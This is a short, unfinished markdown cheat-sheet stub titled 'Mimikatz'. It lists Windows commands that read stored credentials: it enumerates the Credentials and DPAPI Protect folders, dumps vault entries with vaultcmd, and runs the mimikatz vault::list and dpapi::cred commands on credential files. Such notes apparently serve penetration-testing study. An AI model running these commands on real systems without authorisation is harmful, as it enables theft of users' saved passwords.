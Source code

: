 # 01 - Mimikatz

TODO: Fill the rest

`C:\> dir C:\Users\%username%\AppData\Local\Microsoft\Credentials`

`C:\> vaultcmd /listcreds:"Windows Credentials" /all`

```
mimikatz # vault::list

mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\
```

`C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\S-1-5-21-`